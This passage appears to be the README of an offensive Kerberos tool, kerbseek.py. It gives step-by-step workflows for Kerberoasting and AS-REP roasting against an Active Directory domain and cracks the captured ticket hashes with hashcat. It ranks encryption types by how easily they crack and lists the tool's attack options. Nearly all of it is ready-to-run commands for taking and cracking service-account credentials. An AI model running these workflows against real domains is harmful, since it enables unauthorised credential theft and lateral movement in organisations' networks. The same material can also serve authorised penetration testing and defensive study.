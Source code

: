 ### Workflow 2: With Domain Credentials
```bash
# 1. Enumerate SPNs and request TGS tickets
./kerbseek.py -d CORP.LOCAL -u domain_user -p password --kerberoast

# 2. Crack service account passwords
hashcat -m 13100 tgs_hashes.txt rockyou.txt -r best64.rule

# 3. Target high-value service accounts
grep -i "admin\|sql\|backup" tgs_hashes.txt > priority.txt
hashcat -m 13100 priority.txt wordlist.txt
```

### Workflow 3: Combined Attack
```bash
# 1. Auto-discover Kerberos services
./kerbseek.py --scan subnet.txt

# 2. ASREPRoast first (low-hanging fruit)
./kerbseek.py -d CORP.LOCAL --asrep users.txt

# 3. Use any cracked account for Kerberoasting
./kerbseek.py -d CORP.LOCAL -u compromised -p pass --kerberoast

# 4. Crack all collected hashes
cat tgs_hashes.txt asrep_hashes.txt > all_hashes.txt
hashcat -m 13100 tgs_hashes.txt rockyou.txt
hashcat -m 18200 asrep_hashes.txt rockyou.txt
```

## Encryption Types

| Type | ID | Crackability | Notes |
|------|-----|--------------|-------|
| RC4-HMAC | 23 | ⚡ Fast | Fastest to crack, common in older environments |
| AES128 | 17 | 🐢 Slow | Harder to crack, more secure |
| AES256 | 18 | 🐌 Very Slow | Hardest to crack, strongest |
| DES | 1,3 | ⚡ Fast | Deprecated, rare |

**Priority**: Target RC4-HMAC tickets first for faster cracking success.

## Common Options

```
-d, --domain DOMAIN          Target domain (e.g., CORP.LOCAL)
-u, --username USER          Domain username
-p, --password PASS          Domain password
-dc, --dc-ip IP              Domain Controller IP
--kerberoast                 Request TGS tickets for SPNs
--asreproast FILE            ASREPRoast users from file
--spns FILE                  Kerberoast specific SPNs
--asrep-user USER            ASREPRoast single user
--target-user USER           Target specific user for Kerberoasting
--auto FILE                  Auto-discover and attack
--scan FILE                  Scan for Kerberos services only
-w, --workers N              Concurrent threads (default: 10)
-t, --timeout N              Connection timeout (default: 3)
-v, --verbose                Detailed output
```
